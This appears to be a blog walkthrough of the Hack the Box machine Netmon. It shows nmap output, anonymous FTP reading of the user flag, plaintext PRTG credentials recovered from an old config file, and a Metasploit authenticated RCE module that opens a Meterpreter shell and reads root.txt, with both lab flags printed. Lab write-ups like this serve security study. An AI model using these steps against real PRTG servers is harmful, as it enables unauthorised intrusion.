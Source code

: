 ```yaml
---
title: Netmon - Hack the Box
date: 2024-10-13 12:29:12 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Netmon.png
---
```

---
title: Netmon - Hack the Box
date: 2024-10-13 12:07:03 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Netmon.png
---
---
title: 2024-10-12-Netmon - Hack the Box
date: 2024-10-13 12:01:04 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/2024-10-12-Netmon.png
---
![Image](/assets/Netmon.png)

Netmon serves as a brilliant example of being very intentional and simple when looking for vectors to enumerate and services to exploit. I spent time going down a rabbit hole, albeit a shallow one, but the lesson was learned. It's also important to take very copious notes in these reports here, so from now on these will be very fleshed out.

### Reconnaissance
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-04 15:39 EDT
Nmap scan report for 10.10.10.152
Host is up (0.12s latency).
Not shown: 52259 closed tcp ports (reset), 13263 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_11-10-23  10:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-04T19:41:21
|_  start_date: 2024-09-04T19:38:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 120.10 seconds

```

The scan gives us quite a bit. We've got access to FTP shares, a PRTG Monitor version 18.1.37.13946, and SMB. In hindsight, it's very simple and quite concise, so the trained eye merely comes from practice.

### Service Enumeration

Take the path of least resistance. Be water. Let's fucking go, yeah? Starting with FTP is the sensical choice, with anonymous login allowed, we're privy to quite a bit.

Initially, I'd completely skipped this vector... Dunno why.  `ftp anonymous@10.10.10.152` will yield access. Now, from now on, where applicable, `ls -la` takes precedence. This shows hidden directories, if any. 

```
┌──(root㉿kali)-[/home/li0t]
└─# ftp anonymous@10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -la
229 Entering Extended Passive Mode (|||49858|)
150 Opening ASCII mode data connection.
11-20-16  10:46PM       <DIR>          $RECYCLE.BIN
02-03-19  12:18AM                 1024 .rnd
11-20-16  09:59PM               389408 bootmgr
07-16-16  09:10AM                    1 BOOTNXT
02-03-19  08:05AM       <DIR>          Documents and Settings
02-25-19  10:15PM       <DIR>          inetpub
09-06-24  05:49AM            738197504 pagefile.sys
07-16-16  09:18AM       <DIR>          PerfLogs
02-25-19  10:56PM       <DIR>          Program Files
02-03-19  12:28AM       <DIR>          Program Files (x86)
12-15-21  10:40AM       <DIR>          ProgramData
02-03-19  08:05AM       <DIR>          Recovery
02-03-19  08:04AM       <DIR>          System Volume Information
02-03-19  08:08AM       <DIR>          Users
11-10-23  10:20AM       <DIR>          Windows
226 Transfer complete.

```

We get a lot here, but we don't know what it all means yet. Easiest path leads us down through public users to get our user flag.

```
ftp> more user.txt
0526c34b6f2df988e87b2d8d1abc7b4b
```

Theres nothing much else here in the `/Users` directory, and we cannot access administrator level ones without higher privileges. We'll come back here soon. Let's see what the web server has to offer.

![Image](/assets/Screenshot 2024-09-04 at 3.45.47 PM.png)

Navigating to the website, we're met with a portal for this PRTG Network Monitor, and upon some research looking for version information and credentials, we find this interesting tidbits.

![Image](/assets/Screenshot 2024-09-06 at 6.35.25 AM.png)
![Image](/assets/Screenshot 2024-09-06 at 6.29.25 AM.png)
![Image](/assets/Screenshot 2024-09-06 at 6.14.17 AM.png)

So, it looks like this version of the software keeps plaintext credentials in an old configuration file, and given the path in the photo, it looks like we can access through FTP. Navigating to `/ProgramData/Paessler/PRTG\ Network\ Monitor/` gives us access to the old configuration files, where we can find the credentials needed.

![Image](/assets/Screenshot 2024-09-06 at 6.28.55 AM.png)

### Initial Access

Now, once found, we can use searchsploit to check if there's a MSF module for the RCE referenced above. 

```
┌──(root㉿kali)-[/home/li0t]
└─# searchsploit PRTG
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
PRTG Network Monitor 18.2.38 - (Authentica | windows/webapps/46527.sh
PRTG Network Monitor 20.4.63.1412 - 'maps' | windows/webapps/49156.txt
PRTG Network Monitor < 18.1.39.1648 - Stac | windows_x86/dos/44500.py
PRTG Traffic Grapher 6.2.1 - 'url' Cross-S | java/webapps/34108.txt
------------------------------------------- --------------------------------
```

Looks like we're in business. I'm going to use Metasploit for now because I'm pressed on time, but I'll come back through (for all MSF ones) and do it manually as well.

```
msf6 > search PRTG

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce_cve_2023_32781  2023-08-09       excellent  Yes    PRTG CVE-2023-32781 Authenticated RCE
   1    \_ target: Windows_Fetch                                  .                .          .      .
   2    \_ target: Windows_CMDStager                              .                .          .      .
   3  exploit/windows/http/prtg_authenticated_rce                 2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE

```

Looks like 3 is what we want. I'll also set to a `bind_tcp` payload, as reverse has been throwing errors for me. Also, the box was published in 2019, and seeing as the password houses 2018, we can give both a shot for variance.

![Image](/assets/Screenshot 2024-09-06 at 6.40.30 AM.png)

Let it rip, bear.

```
msf6 exploit(windows/http/prtg_authenticated_rce) > run

[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Started bind TCP handler against 10.10.10.152:4444
[*] Sending stage (176198 bytes) to 10.10.10.152
[*] Meterpreter session 1 opened (10.10.14.3:37941 -> 10.10.10.152:4444) at 2024-09-06 06:40:53 -0400

meterpreter > 
```

### Post-Exploitation

Navigate to the administrator file that we didn't have access to before, and you'll get your flag.

```
meterpreter > cat root.txt 
45d31e16cd35bfb0311d0b7f3207e644
```
#easy #windows #msfconsole 
